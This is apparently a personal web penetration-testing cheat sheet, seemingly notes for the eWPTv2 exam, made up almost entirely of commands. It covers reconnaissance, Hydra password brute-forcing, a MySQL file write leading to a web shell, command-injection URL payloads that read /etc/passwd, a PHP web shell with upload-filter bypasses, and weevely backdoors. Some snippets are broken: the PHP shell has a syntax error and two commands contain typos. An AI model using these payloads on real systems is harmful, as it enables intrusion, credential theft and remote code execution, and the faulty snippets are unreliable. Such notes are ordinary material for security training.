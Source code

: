 # TOOLS
## 1. Enumeration
- __```netdiscover -I eth0 -r <ip>/24```__
- __```dnsenum <domain name>```__
- __```dnsrecon -d <domain_name>```__
- __```whatweb <ip>```__
- __```httracker <url>```__
- __```wafw00f <domain_name>``` or ```wafw00f <domain_name> -a```__
- __```theHarvester -d <domain name> -b google,linkedin,yahoo,dnsdumpster,duckduckgo,crtsh,rapdiddns```__
- __```dnsenum <domain name>```__
- __```dig axfr @<nameServer> <domain name>```__
- __```fierce -dns <domain name>```__
- __```sublist3r -d <domain name>``` or ```sublist3r -d <domain name> -e google,yahoo```  Subdomain Enumeration__
- __```dirb <url>```__

## 2. [Nmap](nmap.md)

## Gobuster
- __```gobuster dir -k -u http://127.0.0.1/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,cnf,conf```__
- __```gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .html,.php -u http://127.0.0.1/```__
- __```gobuster dir --url <url> --wordlist /usr/share/wordlists/dirb/common.txt```__

## dirb
- __```dirb <url> /usr/share/wordlists/dirb/small.txt```__


## Nikto
- __```nikto -h <url>```__


## Hydra 
- __```hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  127.0.0.1 ftp```__
- __```hydra -l admin -P /root/Desktop/wordlists/100-common-passwords.txt 127.0.0.1 http-get /digest/```__
- __```hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /root/Desktop/wordlists/100-common-passwords.txt 127.0.0.1 http-get /digest/```__

## Mysql
- __```mysql -h 10.0.1.22 -u root```__
- __```select 'This is a test' into outfile '/tmp/test' from mysql.user limit 1;```__
  - > __if executed, confirms the ability to write files on the web server.__
![Image1](/Image/mysql.png)
- __Now navigate to that path where you write the `shell.php`__
  - > __```<url>/shell.php?cmd=id```__
  - > __```<url>/shell.php?cmd=cat /etc/passwd```__

## 3. [SMB](smb.md)
### nmblookup
- `nmblookup -A 10.0.1.22`
  - If you get the result `SAMBA-RECON  <20>`
  - That means there is a server running
  - so using `smbclient` we can connect to the server
 
## [Msfconsole](msfconsole.md)

## [SQL Injection](sql.md)
## [HTTP Method Tampering ](http_tampering.md)
  - __```curl http://<target_ip>/uploads --upload-file shell.php```__

## Need to try in URL
- __<url>?input=test;phpinfo()__
- __<url>?input=test;system('whomai')__
- __<url>?input=test;system('cat /etc/passwd')__

## Nmap Scan for the eWPTv2
- __```sudo nmap -sS -sV --script mysql-empty-password -p 3306 120.0.0.1```__

## Arbitrary File Upload 
#### 1
```php
<?php
$output = shell_exec($_GET(["cmd"]);
echo "<pre>$output</pre>";
?>
```
- > __save it as shell.php and upload this file in webserver__
- > __<url>/shell.php?cmd=id__

#### 2
- __You can use perdefine webshells__
  - __```ls -al /usr/share/webshells/php```__

 #### 3
- __If file upload restricts PHP file types, rename shell.php to an image extension like shell.jpg in burp suite. Simply visiting `<url>/shell.jpg` won’t execute the PHP script. To run the script, append `/shell.php` to the URL: `<url>/shell.jpg/shell.php`__
  - __```<url>/shell.jpg/shell.php?cmd=id```__
  - > __Note: This can be done in nginx by chrome__
### OR
- __you can use weevely to generate php script in the formate of .jpg__
- __```weevely generate password ~/Desktop/shell.jpg```__
- __```weevely <url_where_the_file_uploaded>/shell.jpg/shell.php password```__

## WordPress
- __```wpscan --url <url>```__

# Check list
- [x] [Open redirect](open_redirect.md)
- [x] [Cross-Site Scripting (XSS)](xss.md)
- [x] [Content-Security-Policy](csp.md)



